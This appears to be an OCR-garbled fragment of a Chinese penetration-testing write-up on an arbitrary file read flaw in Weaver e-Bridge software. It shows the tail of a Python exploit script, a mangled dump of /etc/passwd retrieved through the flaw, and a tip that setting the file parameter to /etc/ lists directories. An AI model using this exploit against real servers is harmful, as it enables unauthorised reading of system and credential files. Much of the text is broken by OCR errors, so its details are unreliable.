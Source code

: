 ```
    except Exception as e:
        print("\[-\] %s not vulnerabile!"%(u))
        #print("\[-\] %s"%(e))
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/264068/1599904516603-dd21ae41-5f2e-4787-a556-7e3068fadf99.png?x-oss-process=image%2Fresize%2Cw_746 "image.png")

isvulnerabile?

http:/

\[\*\]h

root:x:0:0:root:/roota/bin/bash

binx:1:1:binhin/sbin/noi

daemonx:2:2:daemon:/sbin:/sbin/nologi

admx:3:4:admi/ar/adm/sbin/nogi

Ipx:4:2:1p/arspoo/bi/i

Syncx:5:0:ncbinBi/

Sshutdown-x:6:b:shutdown:/sbin/shin/shuto

haltx:?:u:halt:/sbin/sbin/hait

ax:812a/a///i/

uCP:x:10:14:uLCP:APO/u/i/ogI

operatorx:11:boperato/root/in/noogin

amesx121l0games/usr/games/shin/noogi

sgophex:13:30:gopher:/ar/gophe/sbin/nooi

tp:x:14:50:TPUse/a/TP/in/noog

nobody:x:99:99:Nobody//i/i

dbusx:81:81:stennesaehus//hin/o

usbpuxdx:113:113:ubuxdue/i/o

X:69:69itualconseoi/g

泛微云桥任意文件读取的其他用法：

比如列目录：传入file的值为：/etc/

![image.png](https://cdn.nlark.com/yuque/0/2020/png/264068/1600232609304-6b680e49-6e22-4b46-93e8-3948be434f1a.png?x-oss-process=image%2Fresize%2Cw_712 "image.png")

~/pentest/漏洞EXP/泛微

AdminTony@MacBook-Pro

1:99

python3
